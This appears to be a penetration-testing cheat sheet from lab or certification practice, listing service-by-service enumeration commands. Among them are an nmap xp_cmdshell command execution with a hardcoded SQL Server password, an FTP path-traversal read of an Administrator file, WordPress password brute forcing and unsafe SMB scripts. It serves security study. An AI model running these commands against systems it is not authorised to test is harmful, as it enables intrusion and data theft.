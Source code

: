## Scan

### NMAP
```
nmap -A -Pn -n --top-ports 10000 -vvv -oN 192.168.27.68
nmap -sV -T5 -F -A 10.11.1.5 --open --script vuln
nmap -A -Pn -sC 10.11.1.8
nmap 10.11.1.31 -p 1433 --script ms-sql-xp-cmdshell --script-args mssql.username=sa,mssql.password=poiuytrewq,mssql.instance-name=MSSQLSERVER,ms-sql-xp-cmdshell.cmd='type C:\"Documents and Settings"\Administrator\Desktop\proof.txt'
nmap 10.11.1.125 --script ftp*
nmap -oN nmap2.txt -v -sU -sS -p- -A -T4 $ip
```
### NIKTO
```
nikto -h 10.10.10.10:8000
```

### DIRBUSTER
```
dirb http://10.11.1.31
```



### FTP - 21
```
anonymous:anonymous
cd "Documents and Settings"
get servers.py

ls ../../../../../../../../../../../Docume~1/Administrateur/Bureau/
get
(remote-file) ../../../../../../../../../../../Docume~1/Administrateur/Bureau/proof.txt
(local-file) /root/Desktop/10.11.1.125.txt
```

### SMTP - 25

```
nc -nv $ip 25
```

### DNS - 53

```
dig a domain-name-here.com @nameserver
dig axfr domain-name-here.com @nameserver
dnsenum zonetransfer.me
```

### WORDPRESS - 80, 443 etc.

```
wpscan -u "http://10.11.1.234" --wordlist /usr/share/wordlists/rockyou.txt --username admin
```

### POP3 - 110

POP3 Enumeration
```
telnet $ip 110
USER billydean
PASS password
list
retr 1
```

### NFC - 111

Show Mountable NFS Shares
```
nmap -sV --script=nfs-showmount $ip
```

### RPC - 135, 389

```
rpcclient --user="" --command=enumprivs -N $ip
```

### SMB - 139, 445

SMB Enumeration Tools
```
enum4linux 10.11.1.8
smbclient //10.11.1.128/wwwroot
smbclient -L 10.11.1.128
rpcclient -U "" $ip
```

SMB OS & Port Scan & All Script
```
nmap $ip --script smb-os-discovery.nse
nmap -v -p 139,445 -oG smb.txt $ip-254
nmap -sV -Pn -vv -p 445 --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
nmap -sV -Pn -vv -p 445 --script-args smbuser=<username>,smbpass=<password> --script='(smb*) and not (brute or broadcast or dos or external or fuzzer)' --script-args=unsafe=1 $ip
```

### SNMP - 161,162

```
snmpcheck -t $ip -c public
snmpwalk -c public -v1 $ip 1|
grep hrSWRunName|cut -d\* \* -f
snmpenum -t $ip
onesixtyone -c names -i hosts
nmap -sV -p 161 --script=snmp-info $ip/24
```

SNMP Default Credentials
```
/usr/share/metasploit-framework/data/wordlists/snmp_default_pass.txt
```

